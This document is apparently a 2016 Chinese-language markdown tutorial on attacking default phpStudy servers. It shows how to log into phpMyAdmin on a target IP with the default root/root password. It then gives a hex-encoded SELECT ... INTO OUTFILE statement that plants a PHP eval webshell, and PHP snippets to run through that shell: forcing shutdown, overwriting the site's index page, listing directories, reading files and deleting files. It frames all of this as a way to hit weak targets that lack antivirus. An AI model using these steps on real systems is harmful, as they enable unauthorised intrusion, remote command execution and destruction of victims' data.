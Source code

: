 # phpstudy的利用

PHPstudy很方便，但是如果默认配置的话，很危险  

--------------------------------------------------------------------------------

如果直接单击启动，会同时打开Apache MySQL  
![](images/启动Apache和MySQL.png)  
然后知道MySQL默认的用户名和密码都是root  
找个可以访问的ip，比如 1.1.1.1  
这样就可以访问   1.1.1.1/phpmyadmin  
![](images/登录phpMyAdmin.png)  

如果是默认设置的话就可以进去了  
然后随便选一个表，打开SQL选项卡  
![](images/打开SQL选项卡.png)  


接下来参考一下 http://www.2cto.com/Article/200907/40057.html  
`select 0x3c3f706870206576616c28245f524551554553545b636d645d293b3f3e into outfile "d:/xamp/www/ok.php"` 即可将一句话木马 `<?php eval($_REQUEST[cmd]);?>` 导出得到webshell。  

把SQL语句稍微改一下路径  
![](images/sql语句写php文件.png)  

就是这个样子，看到这个提示，说明已经插入成功了，接下来就可以利用了  
这条语句要求a.php这个文件之前不存在，也就是创建一个a.php文件，不够隐蔽  
所以如果想隐蔽的话，应该把 select 换成 insert  （insert 的要求是 插入文件必须存在）    

下面给cmd这个参数赋值各种php语句就好了  
![](images/执行命令.png)  

--------------------------------------------------------------------------------
举一些例子

强制关机（这个很重要，exec 相当于直接在 cmd 下执行命令）  
![](images/强制关机.png)  

打开并写入文件内容  
```php
$file='D:/phpstudy/www/index.php';
$fopen=fopen($file,'wb');
fputs($fopen,'i am playing with you!');
fclose($fopen);
```

遍历目录（目录可以自己换）  
```php
$base_dir="D:/phpstudy/www/";
$fso=opendir($base_dir);
echo $base_dir."<hr/>";
while($flist=readdir($fso)){
   echo $flist."<br/>";
}
closedir($fso);
```

读文件  
```php
$file="d:/phpstudy/www/a.php";
if(file_exists($file)==false){
    die('not exist');
}
$data=file_get_contents($file);
echo htmlentities($data);
```

删除文件  
```php
$file="d:/phpstudy/www/a.php";
$result=@unlink($file);
if($result==false){
    echo 'has delete';
}else{
    echo 'cant delete';
}
```

--------------------------------------------------------------------------------
最后，这种方法能奏效的都是比较渣的没有杀毒软件的目标，有杀软的立马就检测出来了


---
2016/6/15  

